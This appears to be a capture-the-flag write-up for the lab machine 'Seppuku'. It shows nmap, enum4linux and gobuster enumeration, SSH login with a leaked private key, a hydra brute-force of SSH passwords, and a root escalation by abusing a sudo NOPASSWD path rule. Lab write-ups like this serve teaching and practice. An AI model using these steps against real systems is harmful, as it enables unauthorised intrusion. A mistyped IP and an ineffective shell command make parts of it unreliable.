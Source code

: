 ```yaml
---
description: >-
  This is a free linux, proving grounds machine, you can also download it from
  vulhub.
---
```


# Seppuku

### Nmap enumeration

```bash
nmap -sV -sC -T4 -p- -oN ~/Desktop/labs/playground/seppuku/nmap 192.168.177.90
```

```markdown
Nmap scan report for 192.168.177.90
Host is up (0.18s latency).
Not shown: 65259 closed tcp ports (conn-refused), 268 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           vsftpd 3.0.3
22/tcp   open  ssh           OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 cd:55:a8:e4:0f:28:bc:b2:a6:7d:41:76:bb:9f:71:f4 (RSA)
|   256 16:fa:29:e4:e0:8a:2e:7d:37:d2:6f:42:b2:dc:e9:22 (ECDSA)
|_  256 bb:74:e8:97:fa:30:8d:da:f9:5c:99:f0:d9:24:8a:d5 (ED25519)
80/tcp   open  http          nginx 1.14.2
|_http-title: 401 Authorization Required
|_http-server-header: nginx/1.14.2
139/tcp  open  netbios-ssn   Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  p��tUU        Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
7080/tcp open  ssl/empoweri0 LiteSpeed
|_http-server-header: LiteSpeed
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|   h2
|   spdy/3
|   spdy/2
|_  http/1.1
| ssl-cert: Subject: commonName=seppuku/organizationName=LiteSpeedCommunity/stateOrProvinceName=NJ/countryName=US
| Not valid before: 2020-05-13T06:51:35
|_Not valid after:  2022-08-11T06:51:35
|_http-title: Did not follow redirect to https://192.168.177.90:7080/
7601/tcp open  http          Apache httpd 2.4.38 ((Debian))
|_http-title: Seppuku
|_http-server-header: Apache/2.4.38 (Debian)
8088/tcp open  http          LiteSpeed httpd
|_http-server-header: LiteSpeed
|_http-title: Seppuku
Service Info: Host: SEPPUKU; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m00s, deviation: 2h53m14s, median: 0s
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: seppuku
|   NetBIOS computer name: SEPPUKU\x00
|   Domain name: \x00
|   FQDN: seppuku
|_  System time: 2024-01-21T14:36:27-05:00
| smb2-time: 
|   date: 2024-01-21T19:36:29
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required


```

### smb enumeration

smb is present on ports 139,445

```bash
enum4linux 192.160.177.90
```

we found users on the system !\[\[users.png]]

```markdown
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''  

S-1-22-1-1000 Unix User\seppuku (Local User)                    
S-1-22-1-1001 Unix User\samurai (Local User)
S-1-22-1-1002 Unix User\tanto (Local User)

```

### http enumeration

. port 80 requires a login, butrueforce is dead end . it has no sub-directories

!\[\[Screenshot\_2024-01-21\_22-45-50.png]]

port 8088 it has sub-directories but don't work, rabbit-hole

!\[\[8088.png]] sub-dircetories they don't work !\[\[808.png]]

port 7601 !\[\[7601.png]]

sub-directory enumeration on port 7601

```shell
gobuster dir -u http://192.168.177.90:7601/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x html,txt,php 
```

!\[\[76.png]]

found a static page, on /ckeditor !\[\[ststic.png]]

founds some files in keys directory !\[\[keys.png]] These two file are ssh keys to but to what users. !\[\[pri.png]] another static page /production !\[\[pro.png]] /secret !\[\[scret.png]] We have received a password list , we are going o use it to bruteforce the ssh and see if we might gave i login. trying the private key obtained

```shell
chmod 600 private
ssh -i private tanto@192.168.177.90
```

We have access to tanto !\[\[tanto.png]]

go to unrestricted terminal

```shell
which python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

enter into /home/seppuku find the local.txt, but we also see a .passwd file !\[\[pass.png]] we have a found a password but \[12345685213456!@!@A] but its for which user

```shell
ssh samurai@192.168.177.90
```

the password we found was for samurai change to unrestricted shell

```shell
echo $$ bash
```

!\[\[sum.png]]

with hydra we also found the password of seppuku

```shell
hydra -l seppuku -P password.lst ssh://192.168.177.90
```

!\[\[hyd.png]]

logging in !\[\[sep.png]]

## privilege escalation

```shell
sudo -l
```

when we run sudo -l on user samurai we see he ca run some files !\[\[pri1.png]]

```markdown
(ALL) NOPASSWD: /../../../../../../home/tanto/.cgi_bin/bin /tmp/*
```

we are going to create the .cgi\_bin file in tanto because it doesn't exist their

```markdown
mkdir .cgi_bin
```

!\[\[cgi.png]]

and also we are going to create a bin file which might help has to get a root shell

```markdown
echo '/bin/bash' > bin
chmod 777 bin
```

!\[\[cg.png]]

root user

```markdown
sudo /../../../../../../home/tanto/.cgi_bin/bin /tmp/*
```

!\[\[root.png]]

!\[\[rt.png]]

